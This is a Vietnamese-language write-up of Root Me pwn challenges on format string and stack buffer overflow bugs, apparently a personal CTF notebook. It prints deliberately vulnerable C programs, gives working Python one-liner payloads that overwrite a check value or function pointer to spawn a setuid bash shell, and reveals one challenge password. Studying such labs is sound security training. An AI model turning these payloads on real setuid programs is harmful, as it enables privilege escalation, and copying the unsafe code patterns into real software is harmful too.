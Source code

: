 # Root me (pwn)

## ELF x86 - Format string bug basic 1

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Bài này là format string nên bug sẽ nằm ở hàm printf ta test thử nhập vào %p xem chương trình sẽ in ra tham số như thế nào

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Decode output từ hex ta sẽ được password

&#x20;

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

9apD()6dmapE

## ELF x86 - Format string bug basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```

## ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

Easy buffer overflow bug sẽ nằm ở  [fgets](http://www.opengroup.org/onlinepubs/009695399/functions/fgets.html)(buf,45,stdin); vì chương trình chỉ cho nhập 40 ký tự nhưng ở đây lại cho 45 nên ta sẽ ghi đè lên nó để đọc shell&#x20;

payload : (python -c  'print "A" \* 40  + "\xef\xbe\xad\xde"'; cat) | ./ch13

Dùng cat để giữ shell

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Stack buffer overflow basic 2

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}\
```

```c
fgets(buf,133,stdin);
```

Biến buf chỉ có 128 giá trị nhưng hàm fgets lại cho nhập tới 133 nên sẽ xuất hiện lỗi buffer overflow ở đây . Lúc này ta sẽ tìm cách ghi đè sao cho có thể chạy được hàm shell() để có thể dùng bash shell

Để ghi lấy được hàm shell ta cần biết địa chỉ của nó&#x20;

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Ở đây địa chỉ của hàm shell sẽ là 0x8048516 chuyển thành little edian sẽ là \x16\x85\x04\x08

\=> payload : (python -c  'print "A" \* 128  + "\x16\x85\x04\x08"'; cat) | ./ch15

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## ELF x86 - Stack buffer overflow basic 3

```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```

```c
                case 0x08:
                  count--;
                  printf("\b");
                  break;
```

Ở đây không thể ghi đè từ trên xuống vì count đã chặn chỉ cho 65 ký tự r

Nên lúc này ta sẽ đẩy từ dưới lên vì count sẽ không check giá trị âm nên khi count bị âm thì nó sẽ bị overwrite mà ở đây để vào được shell thì check phải bằng 0xbfffabc =>  Ở đây là 4 bytes nên ta sẽ trừ count đi 4 lần&#x20;

\=> payload : (python -c  'print "\x08" \* 4 + "\xbc\xfa\xff\xbf"'; cat) | ./ch16

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

